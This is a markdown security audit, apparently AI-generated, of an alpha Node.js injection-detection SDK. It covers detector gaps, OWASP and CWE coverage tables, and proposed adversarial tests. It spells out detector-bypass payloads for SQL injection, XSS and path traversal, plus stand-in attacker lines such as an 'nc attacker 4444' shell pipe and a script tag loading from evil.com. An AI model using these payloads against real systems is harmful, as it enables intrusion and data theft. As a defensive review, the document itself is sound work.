

# EthioShield Security Capability Audit

**Repository:** `etshiled` · **Audit date:** 2026-10-31 · **Auditor:** Antigravity read-only analysis  
**SDK version:** `0.1.0-alpha.0` · **Status declared in README:** _"experimental and not production-ready"_

---

## 1. Executive Assessment

EthioShield is an early-stage (alpha) Node.js application-security SDK. Its foundations are architecturally sound — bounded normalization, structured parsing, policy/enforcement separation, telemetry isolation — but the detection logic is **definitively heuristic and keyword/pattern-based**, not context-aware, not sink-aware, and not semantically complete. The SDK's own README explicitly states it is _"not a complete prevention mechanism"_.

Key conclusions:

| Dimension                    | Finding                                                                                               |
| ---------------------------- | ----------------------------------------------------------------------------------------------------- |
| Detection approach           | Token- and pattern-matching on normalized string values                                               |
| Structural/context awareness | None — no knowledge of query structure, ORM context, output sink, or template context                 |
| Behavioral statefulness      | Rate-limit + correlation counters only; no per-request behavioral sequencing                          |
| Runtime sink instrumentation | Typed observer interface defined; **no automatic hooking** — host application must call manually      |
| Bypass difficulty            | Low-to-moderate for all four detectors using techniques described in §4                               |
| False-positive risk          | Low for common business content; moderate for technical content (SQL docs, code editors, path values) |
| Production readiness         | **Not ready.** In-memory stores, no distributed counters, no challenge provider, no WAF parity        |

> [!CAUTION]
> Deploying EthioShield in `block` mode as a sole security control against injection attacks is unsafe. The detectors are insufficient to prevent a determined attacker. They are useful as a monitoring/telemetry signal and as a speed bump, but must be layered with parameterized queries, output encoding, and access controls in the host application.

---

## 2. File-Level Implementation Evidence

### 2.1 Normalization Layer

**File:** [`normalization.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/detection/normalization.ts)

**What it does:**

- Iterative DFS over the request object (route, query, routeParams, body). Uses a work-stack to avoid call-stack overflow.
- Each scalar is: sliced to 16,384 chars → `decodeURIComponent()` → `normalize('NFKC')` → `.toLocaleLowerCase()`.
- Hard limits: 1,000 nodes, depth 8, 1,000 values, 1 MiB total bytes, 50 findings.
- Cycle detection via `WeakSet`. Limit exhaustion produces `limitsExceeded = true`.
- Object keys are **inspected as values** (not just values). This catches `{ $ne: ... }` key injection.

**What it does NOT do:**

- Does not parse `multipart/form-data` or URL-encoded bodies — Express's own parser must run first.
- Does not parse cookies, `Authorization` header, or custom headers (see §2.7).
- `decodeURIComponent` is called once. Double-encoded payloads (`%2527` → `%27`) survive as `%27` in the normalized value and will be re-decoded correctly. However, payloads using _triple_ encoding or non-standard encodings (e.g., UTF-7, overlong UTF-8) are not processed.
- `NFKC` normalization covers most homoglyph attacks but not all Unicode confusables (e.g., mixed-script identifiers).

### 2.2 SQL Injection Detector

**File:** [`detection/sql-injection.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/detection/sql-injection.ts)

**Algorithm:**

1. Strip `/* ... */` block comments (single-pass, iterative).
2. Tokenize on `[a-z0-9_]` — produces lowercase alphanumeric tokens.
3. If any non-keyword token exceeds 128 chars, return `undefined` (escape hatch to avoid false positives on large binary/base64 values).
4. Look for three-pattern matches:
   - **Keyword sequences:** `union→select`, `select→from`, `insert→into`, `update→set`, `delete→from`, `drop→table/database`
   - **Boolean expression:** `(or|and)` present AND regex `/['"][^'"]*['"']?\s*=\s*['"]?[^'"]+['"]?/u` matches
   - **Timing function:** `(sleep|benchmark)` present AND `(` appears

**Confidence:** `0.86`

**What it catches:**

- Classic `UNION SELECT` payloads in any normalized input field
- `OR '1'='1'` Boolean blinds
- `SLEEP(5)`, `BENCHMARK(...)` timing attacks
- Comment-obfuscated `UN/**/ION SELECT` (comments stripped first)

**What it misses (verified bypasses):**

1. **Line-comment obfuscation:** `UNION--\nSELECT` — `--` comment stripping is **not implemented**. The tokenizer will produce `union` then discard `--`, then produce `select`, but the `--` is treated as a separator, so `hasSequence('union','select')` returns `true` here — so this specific case _does_ trigger. However:
2. **MySQL `#` comments:** `UNION#comment\nSELECT` — `#` not stripped; works as separator so still detected.
3. **Hex-encoded keywords:** `0x53454c454354` — not decoded; bypasses entirely.
4. **Stacked queries with delimiter injection:** `;DROP TABLE users--` — `drop` + `table` sequence detected ✓, but only if split across adjacent tokens.
5. **Database-specific bypasses not in keyword set:** `WAITFOR DELAY`, `pg_sleep`, `EXECUTE`, `EXEC`, `sp_executesql`, `LOAD_FILE`, `INTO OUTFILE`, `OPENROWSET`, `OPENDATASOURCE` — **none are present in the KEYWORDS set**.
6. **NoSQL-style injection into SQL via JSON:** Not applicable (separate detector).
7. **Second-order injection:** Completely invisible — no sink awareness.
8. **Token splitting via whitespace variants:** Tab, newline, carriage-return all treated as non-`[a-z0-9_]` characters, so they function as delimiters — `UNION\tSELECT` → detected ✓.
9. **Long non-keyword token bypass:** Any payload where a non-keyword token exceeds 128 chars aborts detection and returns `undefined`. Crafting a payload like `UNION AAAA...129-char-string...AAAA SELECT` bypasses entirely.

**Tests:** `detection.test.ts` lines 8–27, 29–46, 70–86, 184–215. Reasonably good happy-path coverage. No test for hex encoding, `WAITFOR`, `pg_sleep`, `EXEC`, or the 128-char token escape.

### 2.3 XSS Detector

**File:** [`detection/xss.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/detection/xss.ts)

**Algorithm:**

1. String-match `javascript:` → `javascript_scheme`
2. String-match `data:text/html` → `html_data_scheme`
3. Iterative scan for `<` ... `>` pairs, extracting tag content
4. If tag name is `script` → `script_element`
5. If tag is in `{svg, img, iframe, object, embed}` AND (`on[a-z]=` event attribute OR `srcdoc=`) → `executable_markup_attribute`

**What it catches:**

- `<script>alert(1)</script>`
- ``
- `<svg onload=...>`
- `javascript:alert(1)` in any context
- `data:text/html,...` data URIs

**What it misses (verified bypasses):**

1. **Other dangerous tags:** `<form action="javascript:...">`, `<body onload=...>`, `<a href="javascript:...">`, `<input onfocus=...>`, `<details open ontoggle=...>` — none in `DANGEROUS_TAGS`.
2. **`<a>` with href:** `<a href="javascript:void(0)">` — `a` not in dangerous tags, but `javascript:` string match at step 1 would catch it ✓.
3. **CSS injection:** `expression()`, `url('javascript:...')` in style attributes — not scanned.
4. **Template injection:** `{{7*7}}`, `${7*7}` — not in scope.
5. **`<meta http-equiv="refresh">` redirects:** Not detected.
6. **`<link rel="stylesheet">` with external CSS:** Not detected.
7. **`<base href=...>`:** Not detected.
8. **HTML entity encoding bypass:** The normalization does NOT decode HTML entities. `&lt;script&gt;` passes through as `&lt;script&gt;` — bypasses entirely.
9. **`data:application/javascript`:** Only `data:text/html` is checked. `data:application/javascript` is missed.
10. **Null-byte injection:** `<scr\x00ipt>` — normalization lowercases but does not strip null bytes.
11. **Unclosed tags:** `<script` (no `>`) — the tag scan loop requires `>` to match; unclosed tags are skipped.
12. **MathML/SVG namespace confusion:** `<math><mtext></mtext><mglyph><svg><mtext></mtext><textarea><a id="</textarea>">` — complex nested parser differentials not handled.
13. **`vbscript:` scheme:** Not checked.
14. **`srcdoc` without event attribute check:** The `hasEventAttribute` check on tag line 30 in xss.ts only checks for `on` + `[a-z]` + `=` inside the tag string, but `srcdoc=` is checked with `tag.includes('srcdoc=')` — this is correct, but `srcdoc` with entity-encoded content is not decoded.

**Tests:** Lines 29–46, 184–215 in `detection.test.ts`. The `$nE` test demonstrates case-insensitive normalization works. No test for HTML entities, CSS injection, or the broader tag set.

### 2.4 NoSQL Injection Detector

**File:** [`detection/nosql-injection.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/detection/nosql-injection.ts)

**Algorithm:**

- Splits the value on whitespace, takes first token.
- Checks if that token is in `OPERATORS = {$where, $ne, $gt, $gte, $lt, $lte, $in, $nin, $regex, $expr}`.

**Critical implementation detail:** The detector checks whether the _value string_ starts with a MongoDB operator. This works for cases where the normalization layer extracts object _keys_ as values (which it does — keys are pushed onto the work-stack in `normalization.ts` line 128). So `{ "$ne": "x" }` causes `$ne` to be normalized as a value and detected.

**What it catches:**

- JSON body injection: `{"filter": {"$ne": "value"}}` → key `$ne` is extracted as a value ✓
- Case-insensitive: `$nE` normalized to `$ne` ✓

**What it misses:**

1. **`$text`, `$geoWithin`, `$elemMatch`, `$lookup`, `$unwind`, etc.** — not in operator set.
2. **`$function` (MongoDB 4.4+):** Not present — equivalent to `$where`.
3. **JavaScript injection via `$where` in URL query string** (not JSON body): If the query string value is `$where=this.a>0`, the value is `$where=this.a>0` (the key is `$where`). The _key_ `$where` is pushed as a work value, so it would be detected ✓. But if passed as `?filter=$where+this.a%3E0` (flat string), the value `$where this.a>0` → first token `$where` → detected ✓.
4. **Redis injection patterns, Cassandra CQL injection, Elasticsearch query injection** — none supported.
5. **Operator in nested path:** `{"a": {"$where": "..."}}` → `$where` is a key at depth 2, normalized as a value → detected ✓ (within depth 8 limit).
6. **Array-wrapped operators:** `{"$or": [{"a": 1}]}` — `$or` is not in the operator set. **Missed.**

**Tests:** Lines 169–182 in `detection.test.ts` (confidence band test), lines 29–46 (multi-detector test with `$nE`). No test for `$or`, `$text`, `$function`, or deeply nested operators beyond depth 8.

### 2.5 Path Traversal Detector

**File:** [`detection/path-traversal.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/detection/path-traversal.ts)

**Algorithm:**

- Split on `[\\/]+` → segments array.
- `hasParent = segments.includes('..')` → `parent_path_segment`
- `hasSensitiveRoot = segments.some(s => {etc, proc, windows}.has(s))` → `sensitive_system_path_segment`

**SENSITIVE_SEGMENTS = `{'etc', 'proc', 'windows'}`** (only 3 entries)

**What it catches:**

- `../../etc/passwd` → has `..` ✓
- `%2e%2e%2fetc%2fpasswd` → decoded by normalization to `../../etc/passwd` → splits to `['..', '..', 'etc', 'passwd']` → has `..` ✓
- `/etc/shadow` → has `etc` ✓

**What it misses:**

1. **Unicode dot bypass:** `\u2024` (ONE DOT LEADER) — NFKC normalization may or may not map this to `.`; not verified.
2. **Mixed-encoding dot:** `%252e%252e` double-encoded — single decode gives `%2e%2e`, which is NOT further decoded. Bypass confirmed.
3. **Windows UNC paths:** `\\server\share` — split on `[\\/]+` does handle backslashes, but `server` and `share` are not in SENSITIVE_SEGMENTS.
4. **Sensitive directories beyond 3:** `/var/log`, `/home`, `/root`, `/usr/bin`, `/boot`, `/dev`, `/tmp`, `/run` — **none detected** unless they contain `..`.
5. **Null-byte injection:** `../../etc/passwd\x00.jpg` — null byte is not stripped; after split and filter, `passwd\x00.jpg` ≠ `..`, so not detected via parent. But `etc` segment is still there → detected as `sensitive_system_path_segment` ✓ (partially).
6. **Drive-letter paths:** `C:\windows\system32` → `windows` detected ✓, but `C:` prefix is harmless. `D:\secret\file` → not detected.
7. **Java classpath descriptors:** `WEB-INF/web.xml`, `META-INF/...` — not in set.
8. **Docker/container paths:** `/proc/self/environ` → `proc` detected ✓.

**Tests:** Lines 29–46 and 198–214 in `detection.test.ts`. No test for double encoding, Windows UNC, or paths outside the three recognized roots.

### 2.6 Detection Engine

**File:** [`detection/engine.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/detection/engine.ts)

- Runs normalization, then iterates detectors in sequence.
- Deduplicates findings by `evidenceId` (ruleId + component + path + reasonCode).
- Caps findings at `maxFindings = 50`.
- Wraps each detector in try/catch → detector errors produce `detector_error` in result, not exception.
- Returns `status: 'error'` if any error present.
- Default `maxDurationMs = 25` is in the budget struct but is **not enforced** — there is no actual `setTimeout` or elapsed-time check during detection. This is a documentation claim only; a catastrophic ReDoS would not be interrupted.

> [!WARNING]
> The `maxDurationMs` budget field is never enforced in code. If a future regex or custom plugin caused a ReDoS, detection would not time out.

### 2.7 Header Parser

**File:** [`detection/parsers/headers.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/detection/parsers/headers.ts)

- Only exposes 3 headers to the detection context: `accept-language`, `content-type`, `user-agent`.
- `authorization`, `cookie`, `x-forwarded-for`, and all other headers are **stripped before reaching detectors**.
- This is a deliberate privacy/security design choice.
- **Gap:** XSS payloads in `User-Agent` or `Content-Type` are not detected (headers are not in `context.values`; they're only in `context.headers`).

### 2.8 Policy Evaluator

**File:** [`detection/policy-evaluator.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/detection/policy-evaluator.ts)

- First-finding-wins on ordered rule list.
- Per-rule `confidenceThreshold` filtering.
- `enforcementMode: 'monitor'` downgrades all enforcing actions.
- Detection `status: 'error'` → configurable fallback action (default: `block` in enforce mode, `monitor` otherwise).
- **Gap:** Rule ordering is not documented; inserting rules later in the list has lower precedence. No conflict detection.

### 2.9 Rate Limiter & Correlation

**Files:** [`rate-limit/limiter.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/rate-limit/limiter.ts), [`correlation.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/correlation.ts), [`rate-limit/store.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/rate-limit/store.ts)

- Fixed-window sliding counter (not sliding window — resets on expiry, not per-second rollover).
- Identity is **caller-supplied** via `trustedIdentity` callback — no header trust.
- `InMemoryAtomicCounterStore`: in-process only, no atomicity across multiple Node instances.
- Cardinality cap at 10,000 keys; exhaustion throws → fallback to `failureMode`.
- Correlation: requires **all** configured dimensions to be present; missing dimension skips rule entirely.

**Gap:** In-memory store is not safe for multi-process/multi-pod deployments. Race conditions exist within a single Node.js event loop if multiple requests modify the same counter concurrently (no Mutex — relies on event-loop single-threading which is broken by `await` interleaving in some patterns).

### 2.10 Instrumentation Hub

**File:** [`instrumentation.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/instrumentation.ts)

- Provides observer interface: `sql`, `outboundHttp`, `filesystem`, `command`, `authorization`.
- **Observers are never called automatically.** The host application must explicitly call `hub.notifySql(...)`, etc.
- No monkey-patching, no `AsyncLocalStorage` propagation, no automatic ORM/driver hooking.
- Bounded strings (128 chars), timeout (100ms default, max 1s).
- This is an observation reporting interface, not a security enforcement point.

**Gap:** Without host integration code, the instrumentation hub provides zero security value. It is an API contract, not a working RASP sensor.

### 2.11 Express Middleware

**File:** [`express.ts`](file:///home/fuad001/Documents/Projects/etshiled/packages/sdk-node/src/express.ts)

- Reads `request.body`, `request.query`, `request.params`, `request.path`, `request.headers` — all already parsed by Express.
- Does not read raw body streams.
- IP extraction requires explicit `trustedProxy` configuration; no default.
- `mode: 'monitor'` (default) — detected requests pass through with header `x-ethioshield-action: monitor`.
- `mode: 'block'` — 403 on detection, 503 on inspection failure.
- Telemetry and hooks are fire-and-forget with 100ms timeout.
- Shutdown (`close()`) is graceful.
- **Gap:** No multipart/form-data, `application/x-www-form-urlencoded`, or raw text body inspection.

---

## 3. Detector and Vulnerability Coverage Matrix

### 3.1 OWASP Top 10:2025 Coverage

| OWASP 2025 Category                                            | Status                       | Evidence                                  | Notes                                                                                |
| -------------------------------------------------------------- | ---------------------------- | ----------------------------------------- | ------------------------------------------------------------------------------------ |
| **A01 – Broken Access Control**                                | ❌ Not implemented           | No detector                               | Requires authorization context; InstrumentationHub defines observer but no auto-hook |
| **A02 – Cryptographic Failures**                               | ❌ Not implemented           | No detector                               | Requires static analysis or TLS config inspection                                    |
| **A03 – Injection (SQLi, NoSQL, XSS, Path Traversal, OS Cmd)** | 🟡 Partially supported       | 4 detectors                               | SQL, NoSQL, XSS, Path traversal: heuristic only. OS Command: ❌ not implemented      |
| **A04 – Insecure Design**                                      | ❌ Not implemented           | N/A                                       | Architecture concern, not request-time detectable                                    |
| **A05 – Security Misconfiguration**                            | ❌ Not implemented           | N/A                                       | Requires config scanning, not in-request detection                                   |
| **A06 – Vulnerable & Outdated Components**                     | ❌ Not implemented           | README mentions `audit:production` script | Static dependency scanning required; not in-request                                  |
| **A07 – Identification & Authentication Failures**             | 🟡 Requires host integration | Rate limiter + correlation by identity    | No auth logic; host must supply identity via `trustedIdentity`                       |
| **A08 – Software & Data Integrity Failures**                   | ❌ Not implemented           | N/A                                       | Requires supply-chain and signature checking                                         |
| **A09 – Security Logging & Monitoring Failures**               | 🟡 Partially supported       | Telemetry adapter, `SecurityEvent` schema | Telemetry requires host-provided sink; no cloud endpoint implemented                 |
| **A10 – Server-Side Request Forgery (SSRF)**                   | ❌ Not implemented           | No detector                               | `OutboundHttpObservation` defined but no auto-hook; host must call manually          |

### 3.2 OWASP API Security Top 10:2023 Coverage

| OWASP API 2023 Category                                    | Status                       | Evidence                                                | Notes                                                             |
| ---------------------------------------------------------- | ---------------------------- | ------------------------------------------------------- | ----------------------------------------------------------------- |
| **API1 – Broken Object Level Authorization**               | ❌ Not implemented           | No detector                                             | Requires application data model context                           |
| **API2 – Broken Authentication**                           | 🟡 Requires host integration | Rate limit by `authenticatedUserId`, `verifiedApiKeyId` | Host must supply identity; no auth logic built in                 |
| **API3 – Broken Object Property Level Authorization**      | ❌ Not implemented           | No detector                                             | Requires schema-level context                                     |
| **API4 – Unrestricted Resource Consumption**               | 🟡 Partially supported       | Rate limiter, normalization limits                      | Fixed-window only; in-memory store not distributed                |
| **API5 – Broken Function Level Authorization**             | ❌ Not implemented           | No detector                                             | Requires RBAC/policy integration at application level             |
| **API6 – Unrestricted Access to Sensitive Business Flows** | 🟡 Partially supported       | Correlation engine                                      | Requires host to define and supply correlation rules and identity |
| **API7 – Server-Side Request Forgery**                     | ❌ Not implemented           | Observer interface only                                 | No auto-hook                                                      |
| **API8 – Security Misconfiguration**                       | ❌ Not implemented           | N/A                                                     | Static analysis concern                                           |
| **API9 – Improper Inventory Management**                   | ❌ Not implemented           | N/A                                                     | Requires route cataloguing                                        |
| **API10 – Unsafe Consumption of APIs**                     | ❌ Not implemented           | N/A                                                     | Outbound inspection observer defined but not hooked               |

### 3.3 CWE Coverage

| CWE      | Description                           | Status                  | Notes                                                         |
| -------- | ------------------------------------- | ----------------------- | ------------------------------------------------------------- |
| CWE-89   | SQL Injection                         | 🟡 Heuristic            | Keyword sequence detection; many bypasses documented          |
| CWE-564  | SQL Injection via Hibernate           | ❌ Not implemented      | No ORM-level awareness                                        |
| CWE-943  | NoSQL Injection                       | 🟡 Heuristic            | Operator-prefix detection on keys; `$or`, `$text` missed      |
| CWE-79   | Cross-site Scripting (XSS)            | 🟡 Heuristic            | Tag + scheme detection; entity encoding, CSS injection missed |
| CWE-22   | Path Traversal                        | 🟡 Heuristic            | `..` + 3 roots; double encoding, many paths missed            |
| CWE-23   | Relative Path Traversal               | 🟡 Heuristic            | `..` detected; encoding bypass exists                         |
| CWE-78   | OS Command Injection                  | ❌ Not implemented      | No detector; `CommandObservation` is observer-only            |
| CWE-77   | Command Injection                     | ❌ Not implemented      | As above                                                      |
| CWE-918  | SSRF                                  | ❌ Not implemented      | Observer defined, no auto-hook                                |
| CWE-94   | Code Injection                        | ❌ Not implemented      | No detector for eval/exec patterns                            |
| CWE-611  | XXE                                   | ❌ Not implemented      | No XML parser                                                 |
| CWE-502  | Deserialization of Untrusted Data     | ❌ Not implemented      | No detector                                                   |
| CWE-352  | CSRF                                  | ❌ Not implemented      | No token validation                                           |
| CWE-307  | Brute Force / Excessive Auth Attempts | 🟡 Requires integration | Rate limiter + correlation with host identity                 |
| CWE-400  | Resource Exhaustion / DoS             | 🟡 Partially supported  | Budget limits on normalization; no ReDoS protection           |
| CWE-601  | Open Redirect                         | ❌ Not implemented      | No detector                                                   |
| CWE-1021 | Clickjacking                          | ❌ Not implemented      | No header injection                                           |
| CWE-20   | Improper Input Validation             | 🟡 Partially supported  | Normalization limits; detection is indicator-only             |

### 3.4 Summary Legend

| Icon | Meaning                                          |
| ---- | ------------------------------------------------ |
| ✅   | Implemented and well-tested                      |
| 🟡   | Partially supported or requires host integration |
| 🔵   | Implemented but insufficiently tested            |
| ❌   | Not implemented                                  |

---

## 4. Prioritized Security Gaps

### P0 — Critical (bypasses that defeat existing detectors)

**P0-1: SQL Injection — Hex encoding bypass**  
Payload: `0x55 0x4e 0x49 0x4f 0x4e 0x20 0x53 0x45 0x4c 0x45 0x43 0x54` or MySQL `0x554e494f4e2053454c454354` converts to `UNION SELECT`. Normalization does not decode hex literals. Detector returns no finding.

**P0-2: SQL Injection — 128-char non-keyword token escape**  
Payload: `UNION [130-char random string] SELECT id FROM users`. Line 61 of `sql-injection.ts` returns `undefined` early if any non-keyword token exceeds 128 chars. An attacker can craft arbitrary padding to trigger this exit. Zero findings returned.

**P0-3: XSS — HTML entity encoding bypass**  
Payload: `&lt;script&gt;alert(1)&lt;/script&gt;`. The normalization pipeline does not decode HTML entities. The XSS detector sees no `<` character. If this value reaches a template that entity-decodes on render (most do), XSS executes. Zero findings returned.

**P0-4: Double URL-encoding bypass (path traversal)**  
Payload: `%252e%252e%252fpasswd`. Normalization decodes once: `%2e%2e%2fpasswd`. The `.` characters are not `.` in the segment split. Detector returns no finding.

**P0-5: XSS — `<body onload>`, `<details ontoggle>`, `<form action>`**  
None of the tag names `body`, `details`, `form`, `video`, `audio`, `input`, `select`, `textarea` are in `DANGEROUS_TAGS`. Event attribute on these tags: no finding.

### P1 — High (missing attack classes)

**P1-1: OS Command Injection — no detector at all.**  
`; cat /etc/passwd`, `| nc attacker 4444`, `` `id` `` — completely undetected. The `CommandObservation` is a reporting interface only.

**P1-2: SSRF — no detector at all.**  
`http://169.254.169.254/latest/meta-data/` — no input-layer detection. Observer must be called by host.

**P1-3: NoSQL — `$or`, `$and`, `$not` operators missing.**  
`{"$or": [{"a":1},{"b":1}]}` — `$or` key extracted as value → `$or` is not in `OPERATORS` set → no finding.

**P1-4: XXE — no XML body parsing or detection at all.**  
No XML parser adapter exists.

**P1-5: SSTI / Template injection — no detector.**  
`{{7*7}}`, `<%= 7*7 %>`, `${7*7}` — no pattern matching.

**P1-6: HTTP Request Smuggling — not detectable at this layer.**  
Requires HTTP/1.1 raw buffer inspection, not Express-parsed request objects.

**P1-7: `maxDurationMs` budget unenforced.**  
Budget struct has `maxDurationMs: 25` but no timer check in engine loop. A catastrophic regex or custom plugin would run to completion.

### P2 — Medium (operational gaps)

**P2-1: In-memory rate limit store not safe for multi-process deployments.**  
`InMemoryAtomicCounterStore` is per-process. With PM2 cluster or Kubernetes pods, each process has independent counters; an attacker can distribute requests across pods to multiply the effective limit by pod count.

**P2-2: Race condition in InMemoryAtomicCounterStore.**  
`await this.store.increment(...)` in limiter uses `await` which yields. Between the increment `await` and the return, another coroutine could increment the same key. The counter reads are not within a mutex. For a pure in-memory case with `Map`, the `await` is resolved synchronously (no actual async), so this is mitigated in practice. But if a host provides an async `AtomicCounterStore`, the race is real.

**P2-3: Headers not inspected for injection payloads.**  
Only 3 headers exposed. `User-Agent: <script>`, `Content-Type: text/html; charset=` are not detected.

**P2-4: Fixed-window vs. sliding-window rate limiting.**  
Fixed-window allows a burst of `2 × maxRequests` requests at the window boundary. A `maxRequests: 100` rule allows 200 requests across a window reset boundary.

**P2-5: Route exclusions bypass telemetry as well as detection.**  
Line 344 in `express.ts`: if a route matches exclusion, `next()` is called immediately — no detection, no telemetry. This means health check exclusions are completely invisible. If health check endpoints are compromised or misused, no signal is produced.

### P3 — Low / Hardening

- `toLocaleLowerCase()` uses system locale; in Turkish locale, `I` lowercases to `ı` not `i`. SQL keyword `INSERT` could become `ınsert` and miss the keyword set.
- Confidence values (0.86, 0.82, etc.) are hard-coded, not calibrated against a labeled dataset.
- `evidenceId` deduplication: if the same exploit appears in two different paths, only the first is returned (subsequent deduplicated). This is correct behavior but may obscure the attack surface in telemetry.

---

## 5. Adversarial Test Plan

The following test cases are reproducible with the existing test harness (Vitest + `DetectionEngine`). They should be added to `detection.test.ts`.

### 5.1 SQL Injection Bypasses

```ts
// P0-1: Hex encoding
engine.inspect({ method: 'POST', route: '/q', body: { q: '0x554e494f4e2053454c454354' } });
// Expected: findings.length > 0 (CURRENTLY FAILS — zero findings)

// P0-2: 128-char padding escape
const pad = 'a'.repeat(130);
engine.inspect({ method: 'POST', route: '/q', body: { q: `UNION ${pad} SELECT id FROM users` } });
// Expected: findings.length > 0 (CURRENTLY FAILS — returns undefined early)

// Line comment (should pass — verify)
engine.inspect({
  method: 'POST',
  route: '/q',
  body: { q: 'UNION-- comment\nSELECT id FROM users' },
});
// Verify existing behavior

// WAITFOR DELAY (SQL Server timing — missing keyword)
engine.inspect({ method: 'POST', route: '/q', body: { q: '1; WAITFOR DELAY 0:0:5--' } });
// Expected: findings.length > 0 (CURRENTLY FAILS)

// pg_sleep (PostgreSQL timing — missing keyword)
engine.inspect({ method: 'POST', route: '/q', body: { q: "'; SELECT pg_sleep(5)--" } });
// Expected: findings.length > 0 (CURRENTLY FAILS — pg_sleep not in keyword set, no select→from sequence)
```

### 5.2 XSS Bypasses

```ts
// P0-3: HTML entity encoding
engine.inspect({
  method: 'POST',
  route: '/q',
  body: { q: '&lt;script&gt;alert(1)&lt;/script&gt;' },
});
// Expected: findings.length > 0 (CURRENTLY FAILS)

// P0-5: body tag with event
engine.inspect({ method: 'POST', route: '/q', body: { q: '<body onload=alert(1)>' } });
// Expected: findings.length > 0 (CURRENTLY FAILS — body not in DANGEROUS_TAGS)

// vbscript: scheme
engine.inspect({ method: 'POST', route: '/q', body: { q: 'vbscript:msgbox(1)' } });
// Expected: findings.length > 0 (CURRENTLY FAILS)

// Unclosed script tag
engine.inspect({ method: 'POST', route: '/q', body: { q: '<script src=//evil.com' } });
// Expected: findings.length > 0 (CURRENTLY FAILS — no > so inner loop doesn't match)

// data:application/javascript
engine.inspect({
  method: 'POST',
  route: '/q',
  body: { q: 'data:application/javascript,alert(1)' },
});
// Expected: findings.length > 0 (CURRENTLY FAILS — only data:text/html checked)
```

### 5.3 NoSQL Injection Bypasses

```ts
// $or operator
engine.inspect({ method: 'POST', route: '/q', body: { filter: { $or: [{ a: 1 }] } } });
// Expected: findings.length > 0 (CURRENTLY FAILS)

// $text operator
engine.inspect({
  method: 'POST',
  route: '/q',
  body: { filter: { $text: { $search: 'exploit' } } },
});
// Expected: findings.length > 0 (CURRENTLY FAILS)
```

### 5.4 Path Traversal Bypasses

```ts
// Double encoding
engine.inspect({ method: 'GET', route: '/file', query: { f: '%252e%252e%252fetc%252fpasswd' } });
// Expected: findings.length > 0 (CURRENTLY FAILS)

// Windows sensitive path without ..
engine.inspect({
  method: 'GET',
  route: '/file',
  query: { f: 'C:\\Users\\Administrator\\secret.txt' },
});
// Expected: possibly a finding (CURRENTLY FAILS — 'users' and 'administrator' not in set)

// /var/log without ..
engine.inspect({ method: 'GET', route: '/file', query: { f: '/var/log/auth.log' } });
// Expected: CURRENTLY NO FINDING (correctly no .. present, but sensitive path)
```

### 5.5 Budget / Safety

```ts
// Verify maxDurationMs is NOT enforced
const start = performance.now();
// inject a custom detector that busy-loops for 5 seconds
const slowDetector = {
  ruleId: 'test.slow',
  detect: () => {
    const end = Date.now() + 5000;
    while (Date.now() < end) {}
    return [];
  },
};
new DetectionEngine([slowDetector]).inspect({ method: 'GET', route: '/q' });
expect(performance.now() - start).toBeLessThan(100); // THIS WILL FAIL — budget not enforced
```

---

## 6. Proposed Detection Engine v2 Architecture

The following is a design proposal only — no code should be changed based on this document.

### 6.1 Core Principles

1. **Sink-aware detection.** Request-time heuristics are signals, not verdicts. True injection detection requires knowing whether a value reaches a dangerous sink (SQL query, shell, file path, HTML template, etc.).
2. **Multi-layer normalization.** Single-pass percent-decode → HTML entity decode → hex literal decode → Unicode normalization → case fold.
3. **Budget enforcement.** `maxDurationMs` must be enforced using `performance.now()` checks inside detector loops.
4. **Structured parsers per content type.** XML, YAML, `multipart/form-data`, `application/x-www-form-urlencoded` need dedicated parsers.

### 6.2 Proposed Architecture



### 6.3 Key Changes per Component

| Component           | v1 Current                                     | v2 Proposed                                                                                                                                                                                                         |
| ------------------- | ---------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- |
| Normalization       | Single `decodeURIComponent` + NFKC + lowercase | Iterative decode until stable (max N rounds), add HTML entity decode, hex literal decode                                                                                                                            |
| SQL Detector        | 17-keyword set, 3 patterns                     | Per-DBMS keyword file (MySQL, PostgreSQL, MSSQL, SQLite, Oracle), include `WAITFOR`, `pg_sleep`, `EXEC`, `EXECUTE`, `OPENROWSET`, etc. Remove 128-char escape hatch (replace with smarter token-length-aware logic) |
| XSS Detector        | 5 dangerous tags, 2 schemes                    | Full HTML tokenizer (or tiny HTML parser), all event-bearing elements, CSS expression, `vbscript:`, `data:*`                                                                                                        |
| NoSQL Detector      | 10 operators, first-token only                 | All standard MongoDB operators + operator-anywhere scanning (not just first token)                                                                                                                                  |
| Path Traversal      | `..` + 3 roots                                 | Multi-encoding decode, extended sensitive root set (~30 entries), Windows drive-letter and UNC handling                                                                                                             |
